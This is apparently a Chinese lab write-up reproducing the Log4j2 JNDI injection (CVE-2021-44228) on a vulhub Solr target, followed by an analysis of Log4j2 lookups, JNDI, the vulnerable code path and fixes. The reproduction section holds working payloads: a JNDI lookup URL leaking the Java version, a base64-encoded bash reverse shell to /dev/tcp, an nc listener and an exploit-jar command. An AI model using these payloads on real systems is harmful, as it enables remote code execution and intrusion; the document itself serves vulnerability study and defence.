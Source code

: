 # CVE-2021-44228：Apache Log4j2 lookup JNDI 注入漏洞

## 漏洞复现

1. 环境搭建

```python
cd /vulhub/log4j/CVE-2021-44228
sudo docker-compose up -d
# 访问网站
http://127.0.0.1:8983/solr/#/
```

![](./img/solr界面.png)        

2. 申请一个dns域名，[点击](http://www.dnslog.cn/)，得到`lpjzt8.dnslog.cn`       

![](./img/申请的域名.png)     

3. 请求：`http://靶场IP:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.你申请的DNS域名}`，也就是：`http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.lpjzt8.dnslog.cn}`

![](./img/获取javaversion.png)        

也可以用burpsuit进行发包

```html
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.0j1wnq.dnslog.cn} HTTP/1.1
Host: 192.168.56.103:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

没反应

4. 刷新一下`refresh record`，发现返回了java版本           

![](./img/poc成功.png)         

5. 开启监听端口：`nc -lvvp 19999`

6. (java需要提前安装)下载漏洞利用的jar文件 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
```bash
git clone https://github.com/bkfish/Apache-Log4j-Learning.git
```
7. bash反弹命令：`bash -i >& /dev/tcp/192.168.56.103/19999 0>&1`，然后进行base64编码：`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwMy8xOTk5OSAwPiYx`
8. 执行Exp
```bash
cd Apache-Log4j-Learning/tools
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwMy8xOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.56.103"

```
![](./img/生成的payload.png)          

9. 构造payload
```bash
http://192.168.56.103:8983/solr/admin/cores?action=${jndi:ldap://192.168.56.103:1389/u0ccwz}
```
10. 拿到shell                     

![](./img/getshell.png)     

## Apache Log4j2 lookup JNDI 注入漏洞

Log4j2是Java的日志组件，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码           

**环境复现**：使用的是Apache Solr 8.11.0

### Log4j2 Lookup

Log4j2的Lookup主要功能是通过**引用一些变量，往日志中添加动态的值**。这些变量可以是外部环境变量，也可以是MDC中的变量，还可以是日志上下文数据等。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.ThreadContext;

public class Log4j2Lookup {
    public static final Logger LOGGER = LogManager.getLogger(Log4j2RCEPoc.class);

    public static void main(String[] args) {
        ThreadContext.put("userId", "test");
        LOGGER.error("userId: ${ctx:userId}");
    }
}
10:21:19.618 [main] ERROR Log4j2RCEPoc - userId: test
```

通过在日志字符串中加入`${ctx:userId}`，Log4j2在输出日志时，会自动在Log4j2的`ThreadContext`中查找

并引用`userId`变量。格式类似"${type:var}"，即可以实现对变量var的引用。type可以是如下值：

- ctx：允许程序将数据存储在 Log4j `ThreadContext`Map 中，然后在日志输出过程中，查找其中的值。
- env：允许系统在全局文件（如 /etc/profile）或应用程序的启动脚本中配置环境变量，然后在日志输出过程中，查找这些变量。例如：`${env:USER}`。
- java：允许查找Java环境配置信息。例如：`${java:version}`。
- jndi：允许通过 JNDI 检索变量。

其中和本次漏洞相关的便是jndi，例如：`${jndi:rmi//127.0.0.1:1099/a}`，表示通过JNDI Lookup功能，获取`rmi//127.0.0.1:1099/a`上的变量内容。

### JNDI

> JNDI（Java Naming and Directory  Interface，Java命名和目录接口），是Java提供的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象(这就意味着通过这个接口可以操作目录服务和域名服务) 。**(可以类比理解NDS的功能)**

JCDI可以访问的现有的目录以及服务有：JDBC（获取数据库）、**LDAP（获取资源）、RMI（获取代码）**、DNS、NIS、CORBA              

RMI：remote method invoke，远程方法调用。客服端可以远程调用服务端上的方法                   

`${jndi:rmi://127.0.0.1:12345/obj}`：rmi就是服务类别，127.0.0.1:12345/obj表示所在的地方，会请求127.0.0.1:12345/obj这个资源，这个资源可以是一个函数（class）

![](./img/大致流程.png)            

- 代码分析
  	1. LOGGER.error调用`MessagePatternConverter.format()`对内容进行解析和格式化
  	1. `MessagePatternConverter.format()`遇到`${`子串时，调用`StrSubstitutor`进行进一步解析
  	1. `StrSubstitutor.resolveVariable()`提取`${}`中间的代码，传递给`Interpolator.lookup()`
  	1. `Interpolator.lookup()`对根据`prefix`命令进行进一步分类，调取对应的Lookup。例如`${jndi:ldap://192.168.56.103:1389/u0ccwz}`调用的实现函数为`JndiLookup.lookup()`
  	1. `JndiLookup.lookup()`方法调用`JndiManager.lookup()`方法，获取JNDI对象后，调用该对象上的`toString()`方法，最终返回该字符串。
  	1. `                        JndiManager.lookup()`较为简单，直接委托给`InitialContext.lookup()`方法

### 修复

- 更新log4j至 rc2([https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2%29)
- 配置防火墙策略，禁止主动连接外网设备
- 升级受影响的应用及组件
- 过滤相关的关键词，比如${jndi://*}

### 补充知识

- dnslog：
  - DNSlog就是存储在DNS服务器上的域名信息，它记录着用户对域名www.baidu.com等的访问信息，类似日志文件
  - 主要用于SQL盲注入、无回显的XSS、无回显的命令注入、无回显的SSRF和Blind XXE

## 参考资料

- [Log4j2远程代码执行漏洞复现(cve-2021-44228)](https://blog.csdn.net/weixin_47179815/article/details/125654828)
- [如何通过vulhub靶场复现log4j2漏洞](https://blog.csdn.net/weixin_46683781/article/details/122226317)
- [vulhub CVE-2021-44228](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228)

- [Log4j2的JNDI注入漏洞（CVE-2021-44228）原理分析与思考](https://www.freebuf.com/vuls/316143.html)